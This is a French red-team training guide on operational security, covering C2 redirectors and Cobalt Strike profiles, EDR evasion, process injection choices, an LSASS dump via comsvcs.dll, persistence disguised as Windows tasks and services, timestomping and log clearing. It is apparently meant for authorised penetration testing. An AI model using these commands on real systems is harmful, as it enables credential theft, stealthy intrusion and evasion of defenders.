

---
tags:
  - formation
  - security
  - windows
  - opsec
  - tradecraft
  - red-team
  - evasion
---

# OPSEC & Tradecraft Red Team

Ce guide couvre les bonnes pratiques de sécurité opérationnelle (OPSEC) pour les opérations Red Team, permettant de rester discret et d'éviter la détection.

!!! warning "Usage Éthique"
    Ces techniques sont destinées aux tests d'intrusion autorisés.
    L'objectif est de simuler des adversaires réalistes pour améliorer les défenses.

---

## Vue d'Ensemble - OPSEC Lifecycle

```mermaid
flowchart LR
    subgraph plan["Planification"]
        P1[Threat Model]
        P2[Infrastructure]
        P3[Tooling]
    end

    subgraph execute["Exécution"]
        E1[Initial Access]
        E2[Persistence]
        E3[Actions]
    end

    subgraph maintain["Maintenance"]
        M1[Monitor Logs]
        M2[Rotate Infra]
        M3[Clean Artifacts]
    end

    subgraph exit["Sortie"]
        X1[Remove Implants]
        X2[Delete Traces]
        X3[Document]
    end

    plan --> execute --> maintain --> exit

    style P1 fill:#3498db,color:#fff
    style E1 fill:#9b59b6,color:#fff
    style M1 fill:#e67e22,color:#fff
    style X1 fill:#27ae60,color:#fff
```



---

## 1. Mindset OPSEC

### 1.1 Principes Fondamentaux

| Principe | Description |
|----------|-------------|
| **Blending In** | Se fondre dans le trafic légitime |
| **Minimal Footprint** | Laisser le moins de traces possible |
| **Know Your Target** | Comprendre les défenses en place |
| **Assume Breach** | Supposer qu'une partie de l'infra est compromise |
| **Document Everything** | Pouvoir justifier chaque action |

### 1.2 Questions à se Poser

Avant chaque action, se demander :

1. **Qui surveille ?** (SOC, EDR, SIEM, NDR)
2. **Quelles traces cela génère ?** (Logs, artefacts, réseau)
3. **Est-ce normal dans cet environnement ?** (Baseline)
4. **Quelle est mon alternative moins bruyante ?**
5. **Ai-je vraiment besoin de faire ça maintenant ?**

---

## 2. Infrastructure C2

### 2.1 Architecture Séparée



### 2.2 Redirecteurs

```bash
# Redirecteur simple avec socat
socat TCP4-LISTEN:443,fork TCP4:c2-server.internal:443

# Redirecteur avec Apache mod_rewrite
<VirtualHost *:443>
    ServerName cdn-static.example.com

    RewriteEngine On

    # Autoriser uniquement les User-Agents attendus
    RewriteCond %{HTTP_USER_AGENT} "^Mozilla/5.0.*Windows NT" [NC]
    RewriteRule ^(.*)$ https://c2-internal.example.com$1 [P]

    # Sinon, rediriger vers un site légitime
    RewriteRule ^(.*)$ https://microsoft.com [R=302,L]
</VirtualHost>
```

### 2.3 Domain Fronting / CDN

```bash
# CloudFront comme redirecteur
# Créer une distribution CloudFront pointant vers le C2
# L'implant contacte une URL CloudFront légitime
# Le header Host redirige vers le C2

# Beacon config
http-config {
    set headers "Host: legit-cdn.cloudfront.net";
    set uri "/api/v1/update";
}
```

### 2.4 Rotation d'Infrastructure

```bash
# Planifier la rotation des redirecteurs
# - Changer les IP tous les X jours
# - Avoir des domaines de backup
# - Ne pas réutiliser d'infrastructure compromise

# Terraform pour infrastructure éphémère
terraform apply -var="domain=backup-cdn.example.com"
# Après compromission ou détection
terraform destroy
```

---

## 3. Implants & Payloads

### 3.1 Choix du C2

| C2 | OPSEC Level | Notes |
|----|-------------|-------|
| **Cobalt Strike** | Élevé | Très signé, requiert customisation |
| **Sliver** | Moyen-Élevé | Open source, moins signé |
| **Havoc** | Moyen | Nouveau, moins connu |
| **Brute Ratel** | Élevé | Conçu pour l'évasion |
| **Custom** | Variable | Dépend de l'implémentation |

### 3.2 Génération de Payloads

```bash
# NE PAS FAIRE
# - Générer des payloads sur le serveur de production
# - Utiliser les payloads par défaut
# - Uploader sur VirusTotal

# BONNES PRATIQUES
# - VM dédiée à la génération
# - Modifier les signatures
# - Tester sur des VM similaires à la cible
# - Utiliser des packers/crypters custom
```

### 3.3 Sleep Obfuscation

```c
// Technique pour masquer l'implant en mémoire pendant le sleep
// Stack/Heap encryption pendant les périodes d'inactivité

// Ekko technique (Cobalt Strike 4.7+)
// Foliage technique
// Gargoyle technique

// Configuration Sliver
generate beacon --seconds 60 --jitter 30 --os windows
```

### 3.4 Indirect Syscalls

```c
// Éviter les hooks EDR sur ntdll.dll
// Appeler directement le noyau

// Techniques:
// - Hell's Gate (runtime syscall resolution)
// - Halo's Gate (si hooks détectés)
// - Tartarus' Gate (32-bit)
// - SysWhispers2/3 (génération de stubs)
```

---

## 4. Exécution & Mouvement

### 4.1 Process Injection OPSEC

| Technique | OPSEC Level | Raison |
|-----------|-------------|--------|
| CreateRemoteThread | Bas | Très surveillé |
| QueueUserAPC | Moyen | Moins commun |
| SetThreadContext | Moyen | Moins surveillé |
| Thread Hijacking | Élevé | Discret |
| Module Stomping | Élevé | Pas de mémoire RWX |
| Process Hollowing | Moyen | Détectable par scan mémoire |

### 4.2 Choix du Process Cible

```powershell
# MAUVAIS choix (suspects)
# - notepad.exe lancé par SYSTEM
# - rundll32.exe sans arguments
# - Processus avec connexions réseau inhabituelles

# BONS choix (blending)
# - Services légitimes faisant des connexions HTTP
# - Browser (si l'utilisateur en a un)
# - OneDrive, Teams (trafic vers Microsoft attendu)

# Vérifier les processus légitimes
Get-Process | Where-Object {$_.Path -like "*Microsoft*"} | Select-Object Name, Path
```

### 4.3 PPID Spoofing

```c
// Faire croire que le processus a un parent légitime
// explorer.exe -> chrome.exe (normal)
// svchost.exe -> malware.exe (suspect!)
// svchost.exe (spoofed) -> malware.exe (moins suspect)

// Utiliser CreateProcess avec PROC_THREAD_ATTRIBUTE_PARENT_PROCESS
```

### 4.4 Lateral Movement OPSEC

| Technique | Artefacts | Recommandation |
|-----------|-----------|----------------|
| **PsExec** | Service créé, Event 7045 | Éviter, très signé |
| **WMI** | Event 5857, 5858, 5861 | Acceptable |
| **WinRM** | Event 4656, 6 | Bon si WinRM utilisé |
| **DCOM** | Variable | Discret si peu surveillé |
| **RDP** | Event 4624 Type 10 | Visible, mais attendu |
| **SMB + Beacon** | Event 5140, 5145 | Préférable |

```powershell
# Préférer les méthodes native de l'environnement
# Si SCCM est utilisé -> SCCM pour déployer
# Si WinRM est courant -> WinRM
# Si RDP est normal -> RDP avec credentials valides
```

---

## 5. Credential Access OPSEC

### 5.1 Éviter le Dump LSASS Direct

```powershell
# TRÈS BRUYANT
mimikatz.exe sekurlsa::logonpasswords  # Signé par tous les EDR

# MOINS BRUYANT
# - comsvcs.dll MiniDump (built-in Windows)
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [LSASS_PID] dump.bin full

# - Dump depuis un process légitime
# - Utiliser des BOFs au lieu d'outils sur disque
# - Remote LSASS dump via handles
```

### 5.2 Alternatives au Dump Mémoire

```powershell
# DCSync (si droits suffisants) - moins de traces locales
# Attention: Event 4662 avec DS-Replication-Get-Changes

# DPAPI - Décrypter les secrets Chrome/credentials
# Pas de touch sur LSASS

# Kerberoasting - TGS requests normales
# Attention: Event 4769 avec RC4

# Tokens - Pas de dump mémoire
# Impersonate token existant
```

### 5.3 In-Memory Only

```powershell
# Ne JAMAIS écrire d'outils sur disque
# Charger en mémoire via:
# - Reflective DLL loading
# - .NET Assembly.Load
# - BOF (Beacon Object Files)
# - PowerShell Invoke-Expression

# Sliver
sliver > execute-assembly /path/to/Rubeus.exe kerberoast

# Cobalt Strike
beacon> execute-assembly /path/to/Seatbelt.exe -group=all
```

---

## 6. Persistence OPSEC

### 6.1 Persistence Discrète

| Technique | Visibilité | Survie Reboot | Notes |
|-----------|------------|---------------|-------|
| **Scheduled Task** | Event 4698 | Oui | Nom crédible requis |
| **Registry Run** | Event 13 (Sysmon) | Oui | Facile à détecter |
| **Service** | Event 7045 | Oui | Très surveillé |
| **WMI Subscription** | Event 5861 | Oui | Discret |
| **COM Hijack** | Minimal | Oui | Très discret |
| **DLL Side-loading** | Minimal | Oui | Excellente OPSEC |
| **Golden Ticket** | Event 4769 | Non (mémoire) | Très puissant |

### 6.2 Nommer les Artefacts

```powershell
# MAUVAIS
schtasks /create /tn "Backdoor" /tr "C:\temp\shell.exe" ...
New-Service -Name "Malware" -BinaryPathName "C:\evil.exe"

# BON - Se fondre dans l'environnement
schtasks /create /tn "Microsoft\Windows\WindowsUpdate\AU Scheduled Install" /tr "..."
New-Service -Name "WindowsManagementServiceHost" -DisplayName "Windows Management Service Host" ...

# Vérifier les noms existants pour s'inspirer
Get-ScheduledTask | Select-Object TaskName, TaskPath | Where-Object {$_.TaskPath -like "*Microsoft*"}
Get-Service | Select-Object Name, DisplayName | Where-Object {$_.Name -like "*Windows*"}
```

### 6.3 Placement des Fichiers

```powershell
# MAUVAIS
C:\temp\payload.exe
C:\Users\Public\shell.exe
C:\ProgramData\evil.dll

# BON
C:\Windows\System32\drivers\[nom_crédible].sys
C:\Program Files\Common Files\Microsoft Shared\[nom_app]\helper.dll
C:\Users\[user]\AppData\Local\Microsoft\[app]\update.exe

# Même timestamps que les fichiers voisins
(Get-Item legitimate.exe).LastWriteTime = (Get-Item $Env:SystemRoot\System32\kernel32.dll).LastWriteTime
```

---

## 7. Network OPSEC

### 7.1 Blending C2 Traffic

```yaml
# Configuration C2 Profile - Cobalt Strike
http-get {
    set uri "/api/v2/updates /cdn/static/js/main.js";

    client {
        header "Accept" "application/json, text/javascript, */*";
        header "Accept-Language" "en-US,en;q=0.9";
        header "Connection" "keep-alive";

        metadata {
            base64url;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/json";
        header "Cache-Control" "max-age=3600";
        header "X-Content-Type-Options" "nosniff";

        output {
            base64url;
            print;
        }
    }
}
```

### 7.2 Timing & Jitter

```bash
# NE PAS FAIRE
# Beacon toutes les 5 secondes exactement -> Pattern évident

# BONNES PRATIQUES
# Sleep de 60s avec 50% de jitter = 30-90s random
sliver > generate beacon --seconds 60 --jitter 50

# Working hours only (plus réaliste)
# Configurer le beacon pour être actif 9h-18h
```

### 7.3 Exfiltration

```bash
# PETIT VOLUME - Via C2
# Fichiers < 1MB, encodés en base64

# MOYEN VOLUME - Cloud légitime
# Utiliser OneDrive/SharePoint/Google Drive de la cible
# Trafic attendu vers ces services

# GRAND VOLUME - Staging
# Compresser, chiffrer, découper
# Exfiltrer pendant les heures de travail
# Utiliser plusieurs canaux
```

---

## 8. Anti-Forensics

### 8.1 Minimiser les Artefacts

```powershell
# Désactiver le Prefetch temporairement (requiert admin)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters" /v EnablePrefetcher /t REG_DWORD /d 0 /f

# Exécuter depuis des emplacements non indexés
# C:\Windows\Temp\ n'est pas dans l'index de recherche

# Éviter de toucher le disque
# PowerShell in-memory, .NET reflection, BOFs
```

### 8.2 Nettoyage

```powershell
# PENDANT l'opération
# - Supprimer les fichiers uploadés après usage
# - Clear les event logs sélectivement (risqué, peut alerter)
# - Timestomp les fichiers créés

# À LA FIN
# - Retirer tous les implants
# - Supprimer les scheduled tasks
# - Retirer les services créés
# - Documenter ce qui n'a pas pu être nettoyé

# Script de nettoyage
Remove-Item "C:\Windows\Temp\payload.exe" -Force
Unregister-ScheduledTask -TaskName "WindowsUpdateCheck" -Confirm:$false
```

### 8.3 Ce qu'on ne peut pas effacer

```
# Attention - Ces artefacts persistent:
# - USN Journal (peut être analysé offline)
# - Volume Shadow Copies
# - $MFT entries (marquées deleted mais présentes)
# - Event logs forwardés vers un SIEM
# - EDR cloud telemetry
# - Network captures
```

---

## 9. Checklist OPSEC

### Avant l'Opération

- [ ] Infrastructure C2 séparée et rotative
- [ ] Redirecteurs configurés
- [ ] Payloads customisés et testés
- [ ] Profil C2 réaliste
- [ ] VM de staging propre

### Pendant l'Opération

- [ ] Jitter activé sur tous les beacons
- [ ] Exécution in-memory privilégiée
- [ ] Process injection dans des cibles légitimes
- [ ] Noms d'artefacts crédibles
- [ ] Timestamps cohérents
- [ ] Logging de toutes les actions

### Après l'Opération

- [ ] Tous les implants retirés
- [ ] Persistence supprimée
- [ ] Fichiers nettoyés
- [ ] Documentation des traces résiduelles
- [ ] Infrastructure C2 détruite

---

## 10. Ressources

### Blogs & Références

- [Red Team Infrastructure Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)
- [Cobalt Strike OPSEC](https://thedfirreport.com/)
- [SpecterOps Blog](https://posts.specterops.io/)

### Outils

| Outil | Usage |
|-------|-------|
| **Malleable C2** | Profiles C2 customisés |
| **ScareCrow** | Payload generation OPSEC |
| **Freeze** | Payload creation |
| **Nimcrypt2** | Packer/crypter |

---

[Retour au Programme](index.md){ .md-button }
[AD Hardening →](ad-hardening.md){ .md-button .md-button--primary }
